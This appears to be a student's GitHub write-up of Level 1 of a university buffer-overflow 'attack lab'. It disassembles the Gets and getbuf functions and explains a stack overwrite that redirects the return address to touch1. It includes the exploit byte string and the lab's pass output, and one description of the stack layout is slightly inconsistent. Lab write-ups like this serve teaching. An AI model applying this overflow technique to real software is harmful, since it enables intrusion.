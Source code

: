 # Solution

## Part I: Code Injection Attacks

### Level 1

Here is the assembly code for *Gets*:

```Assembly
0000000000401a40 <Gets>:
  401a40:	41 54                	push   %r12
  401a42:	55                   	push   %rbp
  401a43:	53                   	push   %rbx
  401a44:	49 89 fc             	mov    %rdi,%r12
  401a47:	c7 05 b3 36 20 00 00 	movl   $0x0,0x2036b3(%rip)        # 605104 <gets_cnt>
  401a4e:	00 00 00 
  401a51:	48 89 fb             	mov    %rdi,%rbx
  401a54:	eb 11                	jmp    401a67 <Gets+0x27>
  401a56:	48 8d 6b 01          	lea    0x1(%rbx),%rbp
  401a5a:	88 03                	mov    %al,(%rbx)
  401a5c:	0f b6 f8             	movzbl %al,%edi
  401a5f:	e8 3c ff ff ff       	call   4019a0 <save_char>
  401a64:	48 89 eb             	mov    %rbp,%rbx
  401a67:	48 8b 3d 62 2a 20 00 	mov    0x202a62(%rip),%rdi        # 6044d0 <infile>
  401a6e:	e8 4d f3 ff ff       	call   400dc0 <_IO_getc@plt>
  401a73:	83 f8 ff             	cmp    $0xffffffff,%eax
  401a76:	74 05                	je     401a7d <Gets+0x3d>
  401a78:	83 f8 0a             	cmp    $0xa,%eax
  401a7b:	75 d9                	jne    401a56 <Gets+0x16>
  401a7d:	c6 03 00             	movb   $0x0,(%rbx)
  401a80:	b8 00 00 00 00       	mov    $0x0,%eax
  401a85:	e8 6e ff ff ff       	call   4019f8 <save_term>
  401a8a:	4c 89 e0             	mov    %r12,%rax
  401a8d:	5b                   	pop    %rbx
  401a8e:	5d                   	pop    %rbp
  401a8f:	41 5c                	pop    %r12
  401a91:	c3                   	ret
```

Here is a rough translation to C:

```C
int Gets(char* buf) {
    gets_cnt = 0; // global variable
    for (char c = getchar(); c != -1 && c != '\n'; c = getchar()) {
        *buf = c;
        save_char(c);
        buf += 1;
    }
    *buf = 0;
    save_term();
    return 0;
}
```

This function is called within *getbuf*:

```Assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
  ```

Before the call to *Gets*, it basically prepares a buffer of size 0x28 (40 bytes) on the stack and pass the stack pointer as input to *Gets*.

Here is the stack organization at the point after *call*:

| address     | data        |
|------------ | ----------- |
| %rsp + 0x38 | 0x401971    |
| %rsp + 0x30 |             |
| %rsp + 0x28 |             |
| %rsp + 0x20 |             |
| %rsp + 0x18 |             |
| %rsp + 0x10 |             |
| %rsp + 0x08 |             |
| %rsp        | 0x4017b4    |

Where *%rdi* point to *%rsp + 0x8*, *%rsp* contains the address to the instruction after the call to *Gets* in *getbuf*, and *rsp + 0x38* contains the address to the instructino after the call to *getbuf* in *test*.

Our goal is to replace *%rsp + 0x38* with the address of the *touch1* function (0x4017c0).

To do that, we can simply write 40 arbitrary characters, and then 4 bytes corresponding to the *touch1* address. See [exploit_ctarget_1.txt](explot_ctarget_1.txt) for the solution to this problem.

Here is the output after running ctarget with the exploit string:

```bash
❯ ./ctarget -q < solution/exploit_ctarget_1_raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 
```

